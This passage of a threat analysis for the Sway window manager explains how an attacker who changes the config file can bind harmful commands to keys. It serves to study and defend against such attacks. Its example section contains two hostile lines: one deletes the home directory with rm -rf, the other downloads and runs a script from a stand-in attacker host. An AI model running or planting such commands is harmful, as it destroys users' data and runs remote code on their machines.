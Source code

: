 ### 4. Deep Analysis of Threat: Malicious Keybinding Execution

#### 4.1 Vulnerability Analysis

The core vulnerability lies in the trust that Sway places in the user's configuration file. Sway's design allows users significant flexibility in customizing their environment, including the ability to bind arbitrary commands to key combinations. This flexibility, while powerful, introduces a security risk if an attacker can manipulate this configuration.

Specifically, the vulnerabilities are:

*   **Lack of Input Sanitization/Validation:** Sway's `config` file parsing likely focuses on functionality rather than strict security validation of the commands being bound. This means it will execute commands as provided, without inherently checking for malicious intent.
*   **Implicit Trust in User Configuration:** Sway assumes the user has control and ownership of their configuration files and that their contents are benign. There are no built-in mechanisms to verify the integrity or authenticity of the `config` file.
*   **Direct Command Execution:** The ability to bind shell commands directly to keybindings provides a powerful but potentially dangerous capability. There's no sandboxing or restriction on the types of commands that can be executed.

#### 4.2 Attack Vectors

An attacker could gain control over the user's Sway configuration file through various means:

*   **Social Engineering:** Tricking the user into downloading and replacing their `config` file with a malicious one. This could involve phishing emails, malicious websites, or even physical access.
*   **Compromised User Account:** If the attacker gains access to the user's account (e.g., through password cracking or credential stuffing), they can directly modify the `config` file.
*   **Software Vulnerabilities:** Exploiting vulnerabilities in other software running on the system could allow an attacker to gain elevated privileges and modify the `config` file.
*   **Insider Threat:** A malicious insider with access to the user's system could intentionally modify the `config` file.
*   **Supply Chain Attack:** In a less likely scenario, a compromised software package or tool used to manage Sway configurations could introduce malicious keybindings.
*   **Physical Access:** If the attacker has physical access to the user's machine, they can directly modify the `config` file.

#### 4.3 Technical Details of Exploitation

Once the attacker has modified the `config` file, the exploitation is straightforward:

1. **Malicious Binding:** The attacker adds a `bindsym` or `bindcode` directive in the `config` file, associating a specific key combination with a malicious command. For example:
    ```
    bindsym $mod+Shift+X exec rm -rf /home/$user/*
    bindsym $mod+Ctrl+M exec wget http://malicious.example.com/payload.sh -O /tmp/payload.sh && chmod +x /tmp/payload.sh && /tmp/payload.sh
    ```
2. **User Interaction:** The unsuspecting user, while interacting with their system, presses the key combination defined by the attacker.
3. **Command Execution:** Sway intercepts the key press and, based on the modified `config` file, executes the associated malicious command with the user's privileges.

